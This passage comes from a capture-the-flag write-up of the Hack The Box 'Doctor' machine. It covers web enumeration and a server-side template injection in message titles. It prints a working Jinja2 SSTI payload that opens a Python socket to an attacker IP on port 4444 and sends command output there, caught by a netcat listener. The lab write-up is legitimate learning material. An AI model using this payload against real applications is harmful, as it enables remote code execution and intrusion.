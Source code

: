 An access to this function will have allowed us to
[have a remote code execution on the server](https://github.com/cnotin/SplunkWhisperer2)
or [allowed us to elevate our privileges on the box](https://github.com/tevora-threat/splunk_local_privesc).

## Web - port 80

The website is about healthcare and doctors. We also see an email contact address
on the front page with the domain _doctors.htb_ (note the *s* at the end).

![Front page and contact email](/media/2020.xx/doctor_01.png)

We had the domain to `/etc/hosts` and browse to it. The website is a "secure"
messaging application with a self sign-in function.

![Doctor Secure Messaging](/media/2020.xx/doctor_02.png)

We create an account and post a message.

![Doctor Secure Messaging](/media/2020.xx/doctor_03.png)

When looking at the page source code we found a comment about the archive
function:
`<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->`

### SSTI

We check for common vulnerabilities and found out that the application is
vulnerable to [server side template injection](https://portswigger.net/web-security/server-side-template-injection)
in the title as when our title is `{{7*7}}` when can see the operation result
(49) in the archive.

![Message with SSTI test payload](/media/2020.xx/doctor_04.png)

![Payload executed in the archive section](/media/2020.xx/doctor_05.png)

We can use this injection to [execute command on the system](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).
After a few test we know that python is on the box and can run a few commands.
The payload below runs `id`.

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.121\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/id\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

We (obviously) run a netcat listener to catch the command's output.

    :::text
    kali@kali:~/pown/htb_doctor$ nc -l -p 4444
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
